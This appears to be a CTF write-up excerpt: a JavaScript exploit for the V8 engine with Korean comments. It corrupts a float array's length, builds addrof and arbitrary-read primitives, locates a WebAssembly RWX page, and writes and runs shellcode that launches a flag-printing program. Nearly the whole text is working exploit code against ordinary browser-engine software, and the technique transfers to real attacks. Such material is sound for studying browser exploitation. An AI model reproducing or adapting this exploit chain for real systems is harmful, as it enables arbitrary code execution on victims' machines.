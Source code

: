 ``` javascript
// length와 함께 묶이는 element 주소를 백업해두어야한다.
var float_arr_elem = ftoi(float_arr[2]) & 0xffffffffn;

// 원본 element와 함께 2048byte 만큼 length의 값을 바꿔준다.
float_arr[2] = itof((0x1000n << 32n) + float_arr_elem);

if (float_arr.length === 2048) {
  console.log("[+] Corruption successful!");
} else {
  console.log("[!] Corruption failed. Try again.");
  throw error;
}

// float_arr[4]가 addrof_arr[0]이다.
// addrof_arr로 object를 넣고, float_arr로 주소값을 읽어온다.
function addrof(obj) {
    addrof_arr[0] = obj;
    return ftoi(float_arr[4]) & 0xffffffffn;
}

console.log("[+] Addrof primitive has been setup");

// float_arr[17]이 arb_read_arr 배열의 element포인터다.
// 원하는 주소를 float_arr로 elements pointer에 덮어쓰고,
// arb_read_arr로 elements에 접근해서 값을 읽는다.
function compressed_arb_read(addr) {
    float_arr[17] = itof((0x1000n << 32n) + addr - 8n);
    return ftoi(arb_read_arr[0]);
}

console.log("[+] Arbitrary read primitive for the compressed heap has been setup");

// AW부분. 진행중,,,
function copy_shellcode(addr, shellcode) {
    float_arr[20] = itof((addr & 0xffffffffn) << 32n);
    float_arr[21] = itof((addr & 0xffffffff00000000n) >> 32n);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var shellcode = [0x99583b6a, 0x622fbb48, 0x732f6e69, 0x48530068, 0x2d68e789, 0x48000063, 0xe852e689, 0x0000000e, 
0x6c662f2e, 0x72706761, 0x65746e69, 0x57560072, 0x0fe68948, 0x00000005];

var rwx_page_addr = compressed_arb_read(addrof(wasm_instance) + 0x68n);

console.log("[+] RWX page address found: " + hex(rwx_page_addr));

console.log("[+] Copying ./flagprinter shellcode to RWX page");
copy_shellcode(rwx_page_addr, shellcode);

console.log("[+] Printing flag!");
f();
```

---